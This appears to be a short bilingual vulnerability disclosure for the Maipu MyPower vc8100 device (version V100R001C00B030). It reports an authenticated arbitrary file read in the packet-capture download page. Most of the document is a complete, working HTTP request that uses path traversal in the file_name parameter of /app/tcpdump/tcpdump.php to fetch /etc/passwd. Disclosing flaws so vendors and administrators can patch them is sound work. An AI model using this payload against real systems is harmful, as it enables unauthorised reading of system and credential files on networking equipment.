

MyPower vc8100 ( 版本: V100R001C00B030)

The product of Maipu Communication Technology Co., Ltd.: MyPower vc8100 (version: V100R001C00B030), there is an arbitrary file reading vulnerability in the background, so you need to log in to the system before you exploit it, and use it at the function of grabbing packet files.

迈普通信技术股份有限公司的产品：MyPower vc8100 ( 版本: V100R001C00B030) 后台存在任意文件读取漏洞，利用前需要登陆系统，在抓取数据包文件功能处进行利用.




Program path: / app/tcpdump/tcpdump.php

```
GET /app/tcpdump/tcpdump.php?menu_uuid=02793c32-813b-4417-8201-5d5455c6c23a&a=download&file_name=../../../../../../../../../../etc/passwd HTTP/1.1
Host: 28.82.7.20
Cookie: PHPSESSID=dd9i76lp6hl9oi0ri833mv3uu2
Sec-Ch-Ua: "Chromium";v="107", "Not=A?Brand";v="24"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.5304.88 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://28.82.7.20/app/tcpdump/tcpdump.php?menu_uuid=02793c32-813b-4417-8201-5d5455c6c23a
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```

